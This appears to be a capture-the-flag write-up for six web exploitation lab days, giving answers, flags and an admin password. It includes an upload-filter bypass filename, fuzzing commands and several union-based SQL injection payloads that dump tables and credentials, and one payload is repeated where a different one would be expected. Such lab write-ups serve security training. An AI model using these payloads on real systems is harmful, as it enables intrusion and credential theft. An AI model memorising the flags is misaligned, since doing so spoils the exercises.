 # [Day 1] Web Exploitation A Christmas Crisis
What is the name of the cookie used for authentication?

```auth```

In what format is the value of this cookie encoded?

```Hexadecimal```

Having decoded the cookie, what format is the data stored in?

```JSON```

What is the value of Santa's cookie?

```7b22636f6d70616e79223a22546865204265737420466573746976616c20436f6d70616e79222c2022757365726e616d65223a2273616e7461227d```

What is the flag you're given when the line is fully active?

```THM{MjY0Yzg5NTJmY2Q1NzM1NjBmZWFhYmQy}```

# [Day 2] Web Exploitation The Elf Strikes Back!
What string of text needs adding to the URL to get access to the upload page?

```?id=ODIzODI5MTNiYmYw```

What type of file is accepted by the site?

```Image```

In which directory are the uploaded files stored?

```/uploads/```

What is the flag in /var/www/flag.txt?

Payload: ./payload.png.php

```THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}```

# [Day 3] Web Exploitation Christmas Chaos

What is the flag?

```THM{885ffab980e049847516f9d8fe99ad1a}```

# [Day 4] Web Exploitation Santa's watching

Given the URL "http://shibes.xyz/api.php", what would the entire wfuzz command look like to query the "breed" parameter using the wordlist "big.txt" (assume that "big.txt" is in your current directory)

```wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ```

Use GoBuster (against the target you deployed -- not the shibes.xyz domain) to find the API directory. What file is there?

```site-log.php```

Fuzz the date parameter on the file you found in the API directory. What is the flag displayed in the correct post?

```THM{D4t3_AP1}```

# [Day 5] Web Exploitation Someone stole Santa's gift list!

Without using directory brute forcing, what's Santa's secret login panel?

```/santapanel```

First of all, try payload is ```' union select 1,2--```, we can see two columns in this database. So it is SQLi union base
Next step, we should determine what type of database and i know it is SQLite since i try payload ```' union select 1, sqlite_version()--``` then i see version of database. Next step is demtermine tables in this database. My payload is ```'UNION SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--```. As can we seen, there are 3 tables in this databases. Let's look for password for admin user. 

![alt text](image.png)

Because database have a table name 'users', reading entries is quite easy. My payload ```' UNION SELECT 1, group_concat(username || "," || password) from users--```

![alt text](image-1.png)

Let's look for flag. There is a table name hidden_table which contain flag. I use thi payload to know 

```'UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hidden_table'--```

To read flag try payload: ```'UNION SELECT 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hidden_table'--```

Another way, you can use SQLmap

How many entries are there in the gift database?

```22```

What did Paul ask for?

```Github Ownership```

What is the flag?

```thmfox{All_I_Want_for_Christmas_Is_You}```

What is admin's password?

```EhCNSWzzFP6sc7gB```

# [Day 6] Web Exploitation Be careful with what you wish on a Christmas night

What vulnerability type was used to exploit the application?

```Stored cross-site scripting```

What query string can be abused to craft a reflected XSS?

```q```

Run a ZAP (zaproxy) automated scan on the target. How many XSS alerts are in the scan?

```2```






